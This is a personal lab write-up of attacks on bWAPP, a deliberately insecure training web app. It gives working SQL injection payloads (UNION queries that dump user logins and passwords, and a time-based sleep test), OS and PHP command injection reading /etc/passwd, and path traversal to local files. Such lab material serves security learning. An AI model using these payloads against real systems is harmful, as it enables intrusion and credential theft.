# Reyce Salisbury's BWAPP Vulnerability Writeups

## Table of Contents:

### Introduction
### SQL Injection
 - GET/Search
 - POST/Search
 - Blind - Time Based
### Command Injection
 - OS Command Injection
### File Inclusion
 - Remote
 - Local
### Other
 - Server-Side Request Forgery

# Introduction

Docker container can be found at https://hub.docker.com/r/raesene/bwapp

BWAPP or 'buggy web application' is a free and open source insecure web application. There are many vulnerabilities within BWAPP, but I will be focusing on the ones listed above.

# SQL Injection

## GET/Search

### For Get search, we are greeted with this beautiful webpage:



### Upon inspecting sqli_1.php we come across this code, which is essentially what is run upon a search in the search bar



### the input into the search string that comes from sqli($title) is not sanitized, by forcefeeding mysql the characters

`'-- -%`

### we can comment out the second percent sign and feed the search nothing, so that it returns all the entries in the table



### Now that we are certain we can inject SQL code, we will use a union attack. In order to pull this off, we need to know how many columns are in this table. To find this out we will use the ORDER BY sql function to figure out this number by brute force. Start at 1 and eventually the database will throw an error on 8 columns.

### Now we know that the table has 7 columns. Now we can search

`World'union select 1, 2, 3, 4, 5, 6, 7-- -`

### so that the table produced will show which field is what column.

### Now we become aware that Title maps to column 2, Release maps to column 3, Character maps to column 5, and Genre maps to column 4. What we can do from here is change the mapping of the query ourselves so that the output are variables that can be helpful to us as an attacker

### We dont know what other information we can gather here, so we need to get a list of the tables in this database. In order to get this list, we search for

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(table_name, '\n') FROM information_schema.tables), 6, 7-- -`

### Note: You must use GROUP_CONCAT or else your subquery will return more than one row, which will raise an error when the output tries to fit into a one row size space.



### While this query displays many tables, none of them are low level enough to be useful to us. This is where we implement a WHERE clause ontop of our search to search for tables that are table_type: 'BASE TABLE'

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(table_name, '\n') FROM information_schema.tables WHERE table_type='BASE TABLE'), 6, 7-- -`



### Now we see something Juicy: 'users' Now we will create a query very similar to the last, except instead of tables, we will need to see what columns in 'users' are interesting. Search for:

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(column_name, '\n') FROM information_schema.columns WHERE table_name = 'users'), 6, 7-- -`



### now that we know the columns of users, we can simply format the entry information into a single line and display it in this table. Accomplished with this query:

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(login, ' => ', password, ' \n ') FROM users), 6, 7-- -`

### the data yielded above is the 'flag' if you will.

## POST/Search

### the process for POST/Search is the exact same as with GET/Search, the only difference being that the query is not in the search bar like with GET, rather it is in a POST request header


## Blind - Time Based

### Examining the code for sqli_15.php, it seems we have another SQL injection opportunity, but there is no response table for us to be able to see that we can manipluate the data.



### What we can do instead, is test the injection success and failure based on the amount of time between responses by sending a sleep command. When we send a string we know will return data along with AND sleep(x) we can tell if the injection worked if there is a noticable delay that correlates with x. my input:

`e%' OR 1=1 AND sleep(5) -- -`



### the result was a page that hung for just a little long that 5 seconds, as seen by the moving dot in the top left corner of the screenshot. 

# Command Injection

## OS Command Injection

### commandi.php code:



### Just by glancing at the code here, we can se that the input target taken by the user is run with shell exec using the ns lookup command. If we input a command delimiter and then another command, we can see if that other command will be run:

`www.nsa.gov; cat /etc/passwd`



## PHP Injection

### to test if we can manipulate the php script output, we will change the URL in the searchbar to 

`localhost:8000/phpi.php?message=test;`

### and check the output



### we can see that there was a change reflected in the output, so now lets test if we can use this to leak any information.

`localhost:8000/phpi.php?message=system("cat /etc/passwd);`

### bada bing bada boom



# File Inclusion

## Remote & Local File Inclusion

### by trying out the site a little bit, we may notice in the search bar how as the language we select changes, the search changes too.





### From here, we can try to change the file output to something other than lang_en.php or lang_fr.php

`localhost:8000/rlfi.php?language=../../../../../../../etc/passwd`



